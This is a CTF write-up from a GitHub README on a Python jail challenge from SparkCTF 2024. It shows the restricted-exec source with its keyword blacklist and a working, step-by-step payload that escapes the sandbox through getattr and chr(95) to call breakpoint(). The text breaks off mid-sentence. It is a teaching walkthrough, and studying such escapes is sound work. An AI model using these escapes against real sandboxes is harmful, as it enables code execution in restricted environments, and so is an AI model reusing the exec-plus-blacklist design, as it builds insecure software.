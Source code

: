 ## Pyhell-Task-SparkCTF-2024
This repo will cover the writeup for the pyjail task hosted at SparkCTF 2024
# Description
This task focused on breaking a Python environment that restricts the built-in functions accessible to the user and employs a blacklist to prohibit specific keywords and characters, which could otherwise be exploited to circumvent these limitations.

#### Files: jail.py
```python
import re
import builtins
import sys

def safe_eval(user_input):
    safe_builtins = {
        "__builtins__": {name: getattr(builtins, name) for name in ['print', 'int', 'float', '__import__', 'getattr', 'chr']}
    }

    try:
        exec(user_input, safe_builtins, {})
    except Exception as e:
        print(f"Error: {e}")
        sys.exit(1)

def jail():
    ascii_art = """
                                                                                                        _..._                                  
                                .---..---.                                                           .-'_..._''.                    .---..---. 
   .              __.....__     |   ||   |          .--.   _..._                                   .' .'      '.\\     __.....__     |   ||   | 
 .'|          .-''         '.   |   ||   |          |__| .'     '.                                / .'            .-''         '.   |   ||   | 
<  |         /     .-''"'-.  `. |   ||   |          .--..   .-.   .                              . '             /     .-''"'-.  `. |   ||   | 
 | |        /     /________\\   \\|   ||   |          |  ||  '   '  |              __              | |            /     /________\\   \\|   ||   | 
 | | .'''-. |                  ||   ||   |          |  ||  |   |  |           .:--.'.            | |            |                  ||   ||   | 
 | |/.'''. \\\\    .-------------'|   ||   |          |  ||  |   |  |          / |   \\ |           . '            \\\\    .-------------'|   ||   | 
 |  /    | | \\    '-.____...---.|   ||   |          |  ||  |   |  |          `" __ | |            \\ '.          .\\    '-.____...---.|   ||   | 
 | |     | |  `.             .' |   ||   |          |__||  |   |  |           .'.''| |             '. `._____.-'/ `.             .' |   ||   | 
 | |     | |    `''-...... -'   '---''---'              |  |   |  |          / /   | |_              `-.______ /    `''-...... -'   '---''---' 
 | '.    | '.                                           |  |   |  |          \\ \\._,\\ '/                       `                                
 '---'   '---'                                          '--'   '--'           `--'  `"                                                         
!! Even Michael Scofield can not escape this .
    """
    print(ascii_art)

    max_input_length = 553

    while True:
        user_input = input(">>> ")

        if len(user_input) > max_input_length:
            print("Bro chill !!! That's kinda long")
            continue

        blacklist = ['exec', 'eval', 'os', 'sys', 'subprocess', 'file', 'open', 'register', 'setattr', 'input', 'mro', 'globals', 'class', 'getitem', 'breakpoint', '_', '.','[',']']

        for block in blacklist:
            if block in user_input:
                print(f"No no {block} is not allowed in here")
                break
        else:
            safe_eval(user_input)

if __name__ == "__main__":
    jail()
```
### Payload-example :
 ```python
().__class__.__class__.__subclasses__(().__class__.__class__)[0].register.__builtins__["breakpoint"]()
```

This payload navigates Python's internal structures to reference the original __builtins__ module not the restricted version provided in the script.
But first we need to find replacements for `_ [ ] .` and other words like `class register builtins breakpoint`.
The main key is to exploit the custom builtins set in our `safe_eval` function. Pretty much `print int float` are kinda usless in our case ( maybe print is useful to test ). We can notice that we have the `getattr` function which if you google it you can already find that it can replaces `.` to accessing attributes.
Another thing in our custom builtins we notice the `chr` function which we can use to replace the `_` by just using `chr(95)`, so now 2 of our major problems are done. 
We will conduct another search to find alternatives for replacing the use of `[]` in Python and one of the main things we will find is the use of getitem method.
We are almost done we found a way to replace the main restrictions  `_ [ ] .`. Now we just need to find a way to bypass the restrictions set for the words in the blacklist which pretty easy we need just to concatenate them using `+` for example we change `class` to `'cl'+'ass'`. That's it now we how to bypass everything all we need to do is construct our new payload ( just don't tilt while constructing it ) 
Our payload should transform from: 
 ```python
().__class__.__class__.__subclasses__(().__class__.__class__)[0].register.__builtins__["breakpoint"]()
```
to: 
 ```python
getattr(getattr(getattr(getattr(getattr(getattr(getattr((), chr(95) + chr(95) + 'cl'+'ass' + chr(95) + chr(95)), chr(95) + chr(95) + 'cl'+'ass' + chr(95) + chr(95)), chr(95) + chr(95) + 'subcl'+'asses' + chr(95) + chr(95))(getattr(getattr((), chr(95) + chr(95) + 'cl'+'ass' + chr(95) + chr(95)), chr(95) + chr(95) + 'cl'+'ass' + chr(95) + chr(95))), chr(95) + chr(95) + 'get'+'item' + chr(95) + chr(95))(0), 'regi'+'ster'), chr(95) + chr(95) + 'buil'+'tins' + chr(95) + chr(95)), chr(95) + chr(95) + 'get'+'item' + chr(95) + chr(95))('break'+'point')()
```
After using the brekpoint() function we have now  
